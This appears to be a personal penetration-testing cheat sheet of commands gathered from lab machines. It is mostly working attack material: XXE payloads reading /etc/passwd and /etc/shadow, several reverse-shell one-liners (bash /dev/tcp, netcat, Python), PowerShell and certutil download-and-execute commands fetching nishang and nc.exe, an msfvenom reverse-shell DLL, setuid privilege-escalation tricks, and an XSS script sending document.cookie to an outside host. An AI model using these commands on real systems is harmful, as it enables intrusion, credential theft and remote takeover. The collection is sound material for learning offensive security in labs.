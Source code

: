 # This file is used to notedown the useful commands during pentesting. After that I arrange the commands
# accordingly in other files in this directory  



1. XXE:

<?xml  version="1.0" encoding="ISO-8859-1"?>                              
<!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///etc/passwd"> ]>
		<bugreport>
		<title>&ent;</title>
		<cwe>aaa</cwe>
		<cvss>aaa</cvss>

<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///etc/shadow"> ]>
<userInfo>
 <firstName>John</firstName>
 <lastName>&ent;</lastName>
</userInfo>




2. Capabilities search: `getcap -r / 2>/dev/null`


3. Python pty Shell: `python -c 'import pty;pty.spawn("/bin/bash")'`



4.Reverse shell : 

Bash : `/bin/bash -i 1>&/dev/tcp/10.10.14.5/1234 0<&1`

Netcat : `nc -e /bin/bash 10.10.14.5 4444`

Netcat(2) : `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.13 1234 >/tmp/f`

Python: 

`python -c 'import socket,subprocess,os;s=socket.socket( socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.5",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`

5. Perl system command one liner: `sudo perl -e 'system("/bin/bash -p");'`


6. XSS : `<script>alert("XSS")</script>`

7. Find Setuid enabled Programs : `find / -perm -u=s -type f 2>/dev/null`

8. df - to see free disk space of all mounted devices

9. Hash cracking :`hashcat -m 7900 -a 0 hash /usr/share/wordlists/rockyou.txt --force`  

10. Connect to Mysql server from the victim : `mysql -u username -h localhost --password=userpassword -D databasename -e 'show tables;'`

perl -e 'use POSIX (setuid); POSIX::setuid(0); exec "/bin/bash";'

echo "import os;os.setuid(0);os.system('chmod u+s /bin/bash')" >test.py

Remember `echo "/bin/bash">file`  NOT  `cp /bin/bash ./file`

export PATH=/home/rabbit:$PATH  

1. mdb-tools for .mdb(MS Access) files
2. pst-utls for .pst files.
3. Download from  ftp in binary mode 


xxd -r -p key ssh.key

cat ~/.bash_history

powershell IEX(New-Object Net.Webclient).downloadString('http://10.10.14.11:8000/nishang.ps1')
powershell IEX(New-Object Net.Webclient).downloadString('http://10.10.14.13:8000/jaws-enum.ps1')
powershell IEX(New-Object System.Net.WebClient).DownloadFile("http://10.10.14.13:8000/jaws-enum.ps1", "C:\\Users\\Public\\Downloads\\jaws-enum.ps1")

powershell IEX(New-Object System.Net.WebClient).DownloadFile("http://10.10.14.11:8000/nc.exe","C:\\xampp\htdocs\gym\upload\nc.exe")

certutil -urlcache -split -f http://10.10.14.11:8000/nc.exe

net users Administrator

cmdkey /list

runas /user:Administrator /savecred "powershell IEX(New-Object Net.Webclient).downloadString('http://10.10.14.13:8000/nishang2.ps1')"

whoami /prev



sudo responder -wrf --lm -v -I tun0 


msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST=10.10.14.14 LPORT=4444 -f dll -o ./evil.dll



mysql -u admin -h localhost --password=kEjdbRigfBHUREiNSDs -D admin










	<script>
	document.write('<img src="http://35.227.24.107/7181c58a9a/index.php?c='+document.cookie+'" />');
	</script>


eccbc87e4b5ce2fe28308fd9f2a7baf3



    Your credentials: wiener:peter
    Victim's credentials carlos:montoya


proxytunnel -p 192.168.2.4:3128 -d 127.0.0.1:22 -a 1234 
sudo ssh user@127.0.0.1 -p 1234 /bin/bash : if bashrc does not allow stable shell. After getting stable shell with this command delete .bashrc file.


